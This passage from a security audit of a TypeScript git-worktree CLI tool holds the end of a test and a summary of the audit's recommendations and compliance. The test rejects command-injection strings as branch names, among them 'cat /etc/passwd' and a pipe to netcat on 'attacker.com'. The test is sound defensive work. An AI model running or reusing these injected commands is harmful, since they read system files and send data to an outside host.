 ```typescript
      'main && cat /etc/passwd',
      'main`whoami`',
      'main$(date)',
      'main|nc attacker.com 1234'
    ];
    
    for (const branch of malicious) {
      await expect(addWorktree('/repo', branch, '/ws')).rejects.toThrow('Invalid branch');
    }
  });
});
```

---

## 10. Security Recommendations Summary

### Critical (None Found) ✅

### High Priority
1. **Add Length Limits:** Implement maximum length validation for all user inputs
2. **Security Test Suite:** Create comprehensive security-focused tests
3. **Rate Limiting:** Add rate limiting for repository discovery operations

### Medium Priority
1. **ReDoS Prevention:** Refactor regex patterns or add input length limits
2. **Cache Validation:** Validate cached data before use
3. **Audit Logging:** Implement security event logging

### Low Priority
1. **Command Whitelisting:** Create explicit command whitelist wrapper
2. **Permission Checks:** Add explicit file permission verification
3. **Error Codes:** Implement structured error codes for security events

---

## 11. Compliance & Best Practices

### Security Standards Adherence
- ✅ **OWASP Top 10:** No violations detected
- ✅ **CWE/SANS Top 25:** Protected against common weaknesses
- ✅ **Node.js Security Best Practices:** Followed throughout

### Recommended Security Enhancements

1. **Security Headers:** Not applicable (CLI tool)
2. **Content Security Policy:** Not applicable (CLI tool)
3. **Dependency Scanning:** Integrate with GitHub Security/Dependabot
4. **SAST Integration:** Consider CodeQL or Semgrep in CI/CD
5. **Security Documentation:** Add SECURITY.md file

---